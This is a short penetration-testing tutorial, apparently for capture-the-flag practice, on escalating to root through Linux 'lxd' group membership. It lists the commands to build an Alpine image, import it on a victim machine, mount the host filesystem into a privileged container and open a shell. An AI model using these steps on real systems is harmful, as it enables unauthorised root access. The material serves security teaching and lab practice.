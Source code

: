 Check for user groups by means of the shell command `id`.

### LXD group 

LXD is a system container and virtual machine manager. If a local user belongs to "lxd" group, then it could instantly escalate the privileges to root on the host operating system.

On the attacker machine:

- Download build-alpine:

      wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
      
- Execute the script that will build an Alpine image as compressed `tar.gz` file:

      sudo bash build-alpine
      
- Transfer the `tar.gz` file to the target machine.


On the victim machine:

- Add the Alpine image as an LXD image:

      lxc image import ./alpine-v3.15-x86_64-20220114_1458.tar.gz --alias alpine_image

- Check the imported image (you should see an image called "alpine_image"):

      lxc image list
      
- Exploit:

      lxc init alpine_image ignite -c security.privileged=true
      lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
      lxc start ignite
      lxc exec ignite /bin/sh
      
Once inside the container, navigate to `/mnt/root` to see the whole filesystem of the victim machine.
You could access to `/mnt/root/root` to retrieve a flag.
